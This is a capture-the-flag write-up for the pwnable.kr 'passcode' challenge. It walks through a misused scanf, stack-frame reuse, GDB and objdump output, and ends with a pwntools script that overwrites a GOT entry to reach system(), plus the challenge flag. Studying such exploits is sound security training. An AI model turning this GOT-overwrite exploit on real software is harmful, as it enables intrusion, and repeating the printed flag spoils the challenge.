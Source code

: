 ```yaml
---
title: "Binary Exploitation | Pwnable.kr - passcode"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```


> Challenge description:
>
> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?




```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
	scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
		printf("Login OK!\n");
		system("/bin/cat flag");
	}
	else {
		printf("Login Failed!\n");
		exit(0);
	}
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

This challenge was a bit frustrating at first so let's go easy.

First there is a call to `welcome()` which takes 100 characters of input and prints a welcome message, nothing wrong with it.

After that we have a call to `login()` which reads two integers (or it was intended to do that), then compares them with two constants and if they match we get the flag.

If you compiled this code you will get:

```
warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’
```

That's a very famous `C` warning, the code is passing the variable itself instead of a pointer to it which will cause an arbitrary memory write and might cause an access violation.

if we run the program and enter two numbers we will get a segmentation fault:

```
$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!
enter passcode1 : 1
enter passcode2 : 1
Segmentation fault (core dumped)
```

The first `scanf()` for `passcode1` works just fine, we are writing to an arbitrary memory location but it somehow passed.

If only we could control where to write, we can overwrite any GOT entry with the address of the assembly instructions that calls `system("/bin/cat flag")` and we are done. 

Time for GDB:

```
gef➤  disassemble login 
Dump of assembler code for function login:
.....
   0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:	mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:	mov    DWORD PTR [esp],eax
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    eax,ds:0x804a02c
.....

gef➤  b *0x0804857c
Breakpoint 1 at 0x804857c

gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!

gef➤  x/xw $ebp-0x10
0xffffd018:	0xffffd074
```

As you can see, $ebp-0x10 which is the variable `passcode1` is pointing to `0xffffd074` (the address scanf() is writing to).

The trick of this challenge is that after a function stack frame is destroyed, the next function will start at the same base pointer:

```
 Func1
-------
| esp |
| ... |		 Func2
| ... |		-------
| ... |		| esp |
| ... |		| ... |
| ... |		| ... |
| ebp |		| ebp |		same base pointer
-------		-------				
```

Now it's time to make use of `welcome()` function, some values of the `input` array will be at the stack frame of `login()` function, we can use `pwn cyclic` to generate a pattern of 100 characters and fill the `input` array to see what happens.

```
$ pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```
gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welcome aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa!

gef➤  x/20xw $esp
0xffffd000:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd010:	0x61616177	0x61616178	0x61616179	0xac31af00
0xffffd020:	0xf7fa5000	0xf7fa5000	0xffffd048	0x08048684
0xffffd030:	0x080487f0	0x00000000	0x080486a9	0x00000000
0xffffd040:	0xf7fa5000	0xf7fa5000	0x00000000	0xf7ddafb9

gef➤  x/xw $ebp-0x10
0xffffd018:	0x61616179
```

As you can see, some values of `input` are still present in the `login()` stack frame, and also the `passcode1` variable is overwritten with these values. To know the offset of these values from the beginning of the `input` array we can use `pwn cyclic` again with the value `0x61616179` which is the string `yaaa` (remember little endianness).

```
$ pwn cyclic -l yaaa
96
```

The value of `passcode1` is overwritten by input[96] to input[99], unfortunately these are the last 4 bytes of `input` array so we cannot overwrite `passcode2` (it would be too easy).

Back to our plan, now we have the ability to write to any arbitrary memory location we want, let's overwrite some GOT entries :)

Using objdump we can get the addresses of the GOT entries:

```
$ objdump -R passcode 

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

The address of `fflush()` which is `0x0804a004` seems good, it doesn't contain any bad characters like `\x00 or \x0a`.

Now to get the address of the assembly instructions that calls `system("/bin/cat flag")`:

```
gef➤  disassemble login
.....
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
.....
```

It's at `0x080485e3`, now get have all the pieces to complete this challenge. Remember that we need to send this address as a number string not as hex values.

# Solution:

```python
# solve.py

from pwn import *

buf = ""
buf += 'A' * 96		# offset to passcode1 
buf += p32(0x0804a004)	# passcode1 pointing to fflush GOT entry
buf += str(0x080485e3)	# send as a number not an address

print(buf)
```

```
$ python /tmp/solve.py | ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

Flag: `Sorry mom.. I got confused about scanf usage :(`